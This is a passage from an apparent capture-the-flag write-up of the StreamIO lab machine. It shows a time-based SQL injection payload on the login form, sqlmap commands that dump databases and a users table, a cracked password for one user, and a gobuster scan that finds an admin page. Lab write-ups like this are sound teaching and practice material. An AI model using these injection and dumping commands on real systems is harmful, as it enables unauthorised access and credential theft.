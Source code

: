 ```bash
    Payload: username=caue';WAITFOR DELAY '0:0:5'--&password=test                                                                                        
---
```

Since the sql injection is time-based it is taking a very long time to retrieve data.

Dumping the databases:
```bash
$ sqlmap -r login.req --batch --force-ssl --dbs

available databases [5]:
[*] model
[*] msdb
[*] STREAMIO
[*] streamio_backup
[*] tempdb
```

 At this point we can start guessing some of the table names to make it quicker. For example, we can guess that there is a table called "users" in the STREAMIO database, as the name indicates it is the web app with the login page.

Dumping the table `users` from STREAMIO db we see that there is 33 users, it will take forever to finish. Anyway, here is the syntax:
```bash
$ sqlmap -r login.req --batch --force-ssl -D STREAMIO -T users --dump

...[SNIP]...

| id | is_staff | password                         | username          |
| 31 | 1        | b779ba15cedfd22a023c4d8bcf5f2332 | yoshihide         | 

...[SNIP]...
```

We get a lot of users and password hashes. Trying to crack them with [Crackstation](https://crackstation.net/) we end up with:
```
username = yoshihide
password = '66boysandgirls..'
```

We can use this credentials to login to https://streamio.htb/login.php.
Logged in as `yoshihide` not much changed in the website, running gobuster we find the `/admin` endpoint.
```bash
$ gobuster dir -u https://streamio.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php -k

...[SNIP]...

/admin                (Status: 301) [Size: 150] [--> https://streamio.htb/admin/]

...[SNIP]...
```
